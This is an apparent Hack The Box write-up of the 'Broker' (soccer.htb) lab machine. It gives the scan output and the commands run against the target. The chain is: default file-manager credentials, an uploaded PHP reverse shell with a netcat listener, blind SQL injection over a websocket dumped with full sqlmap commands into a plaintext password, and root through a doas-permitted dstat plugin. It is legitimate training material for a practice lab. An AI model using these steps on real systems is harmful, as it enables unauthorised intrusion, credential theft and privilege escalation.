# Broker - Easy

Target IP: **10.129.61.231**

## User Flag

Initial scan: ```sudo nmap --open 10.129.61.231 -vvv```

Output shows port 9091 being open hosting ```xmltec-xmlmail``` service. Interesting.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-11 09:34 EDT
Initiating Ping Scan at 09:34
Scanning 10.129.61.231 [4 ports]
Completed Ping Scan at 09:34, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:34
Completed Parallel DNS resolution of 1 host. at 09:34, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 09:34
Scanning 10.129.61.231 [1000 ports]
Discovered open port 22/tcp on 10.129.61.231
Discovered open port 80/tcp on 10.129.61.231
Discovered open port 9091/tcp on 10.129.61.231
Completed SYN Stealth Scan at 09:34, 0.18s elapsed (1000 total ports)
Nmap scan report for 10.129.61.231
Host is up, received reset ttl 63 (0.0077s latency).
Scanned at 2026-09-11 09:34:06 EDT for 0s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1002 (40.136KB)
```

Connect and service scan: ```sudo nmap -sC -sV 10.129.61.231 -v```

Standard ssh on port 22, web server on port 80 running ```nginx 1.18.0```, but port 9091 is still unclear.

```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Fri, 11 Sep 2026 13:35:58 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Fri, 11 Sep 2026 13:35:59 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
```

Let's navigate to port 80 and port 9091. First port 80. It navigates us to ```http://soccer.htb/```, let's add this to our ```/etc/hosts``` file.

We are greeted with this page. There doesn't seem to be much on there though, I can't identify anything that could be exploited off of the first view.


What's on port 9091? Hmm...



Not getting much here, so let's fuzz for directories on ```http://soccer.htb/```.

```ffuf -w directory-list-2.3-medium.txt -u http://soccer.htb/FUZZ -ic -t 10```

We get a hit on a ```tiny``` directory, giving us a ```301 moved permanently``` HTTP status.

Let's navigate to it. Ah yes, this looks more promising now. It seems to be an instance of ```H3K Tiny File Manager```, a web-based file manager built into a single PHP file.



We need to find valid login credentials for this application. Looking online, the [source code](https://github.com/prasathmani/tinyfilemanager/blob/master/tinyfilemanager.php) for the application is publicly available on a GitHub page. Inside the source code for the application, default credentials are listed.

```
// Login user name and password
// Users: array('Username' => 'Password', 'Username2' => 'Password2', ...)
// Generate secure password hash - https://tinyfilemanager.github.io/docs/pwd.html
$auth_users = array(
    'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123
    'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345
);
```

Let's try both the ```admin``` and ```user``` default credentials and see if we get access.

Voilà, we get in with ```admin:admin@123```.



Looking closer, this file manager seems to hold all the files required for properly displaying the ```http://soccer.htb/``` website. Additionally, the version ```2.4.3```. We can look for public exploits.

We seem to have upload capabilities through the file manager. The default path is on the webroot ```/var/www/html```. If we upload a php reverse shell and navigate to it after it has been uploaded, we might be able to get a connection back.



Let's try it. My only concern is that I'm not sure that the php file will execute when navigated to, since the website is hosted with nginx. But since the file manager is a php file, it might work. Only one way to find out.

However, when uploading the file, it tells us that the directory we are uploading to is not writable. We are lacking permissions.



Exploring a bit more, the ```tiny``` directory holds the source code for the file manager. I tried editing the content of the php file to add in the reverse shell code, but we also lacked write permissions.



There is also another directory, ```/tiny/uploads```, where there seemed to be a misconfiguration on permissions. ```Other``` has write permissions over this directory. We might be able to upload our shell here.



Let's try it. 

It worked! We should be able to navigate to ```http://soccer.htb/tiny/uploads/php-reverse-shell.php``` and hopefully that gets us a connection back on our listener.



After navigating the url of the uploaded shell, we successfully get a shell. 

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dflawevsex]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.61.231 55680
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 14:14:30 up 42 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

However, there seems to be a user named ```player```, and ```www-data``` lacks permissions to read the user flag.

```
$ cd /home
$ ls
player
$ cd player
$ ls
user.txt
$ cat user.txt
cat: user.txt: Permission denied
```

We can try digging through the remote machine with ```www-data```, looking for privilege escalation vectors.

I transferred ```linpeas.sh``` over to the remote machine and ran it. This looks interesting:

```
╔══════════╣ Doas Configuration
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#doas
Doas binary found at: /usr/local/bin/doas
Doas binary has SUID bit set!
-rwsr-xr-x 1 root root 42224 Nov 17  2022 /usr/local/bin/doas
-e 
Checking doas.conf files:
Found: /usr/local/bin/../etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
Found: /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
-e 
```

This might be a vector when we get user access.

```
$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Apparently there is another endpoint ```soc-player.soccer.htb```. Let's add to our ```/etc/hosts``` file and navigate to it. This is hosted out of ```/root/```.

```
lrwxrwxrwx 1 root root 41 Nov 17  2022 /etc/nginx/sites-enabled/soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
server {
	listen 80;
	listen [::]:80;
	server_name soc-player.soccer.htb;
	root /root/app/views;
	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}
}
```

This seems to be a different version of the website, but with the ability to create accounts and log in.

Let's create an account.



There is a ```/check``` directory where we can check if we have a ticket or not. When we sign up for an account, it gives us a free ticket with an ID. If we enter the given ID number of the ticket, the website returns ```Ticket Exists```, but if we enter a random number, it tells us that it doesn't exist.


This leads me to believe that the ID is being checked against some database, where it forms an SQL query with the integer ID. If so, maybe we can try something like ```1 OR 1=1```. If it tells us that the ticket exists, the database is vulnerable to SQLi.

Testing it out, it works, but we don't see any information returned to us about the database, so this is a blind SQLi.



Looking at the source code, there seems to be a websocket connection being created, which is probably how the website communicates with the database.

Additionally, entering a ticket number on the website sends a simple request just containing an ```id``` parameter.





Let's use sqlmap: ```sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch```

The ```soccer_db``` database looks like what we need.

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Dump the contents in the ```soccer_htb``` database: ```sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D
soccer_db --dump --batch```

There it is!

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

Let's login with this account through ssh, and we should finally have user access.

```
player@soccer:~$ whoami
player
```

We can proceed to get the user flag from here.

## Root Flag

Let's revisit the ```doas``` binary that has the SUID bit set that we identified in our earlier ```linpeas.sh``` scan.

```player``` can run the ```/usr/bin/dstat``` binary without a password with ```doas```.

```
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Let's look the ```dstat``` binary in GTFOBins.

To exploit this, we need to create a Python script (```dstat_xxx.py```) in a directory that is writable to us that is scanned by dstat, then run ```dstat -xxx```.

```/usr/local/share/dstat``` is writable to us.

```
player@soccer:~$ ls -la /usr/local/share
total 24
drwxr-xr-x  6 root root   4096 Nov 17  2022 .
drwxr-xr-x 10 root root   4096 Nov 15  2022 ..
drwxr-xr-x  2 root root   4096 Nov 15  2022 ca-certificates
drwxrwx---  2 root player 4096 Dec 12  2022 dstat
drwxrwsr-x  2 root staff  4096 Nov 17  2022 fonts
drwxr-xr-x  5 root root   4096 Nov 17  2022 man
```

Let's proceed with the exploitation.

```
player@soccer:/usr/local/share/dstat$ nano dstat_exploit.py
player@soccer:/usr/local/share/dstat$ cd ~
```

```dstat_exploit.py``` simply contains python code that will spawn a shell.

Finally, running ```dstat --exploit``` with ```doas``` gives us a shell as ```root```.

```
player@soccer:~$ doas -u root /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player#
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
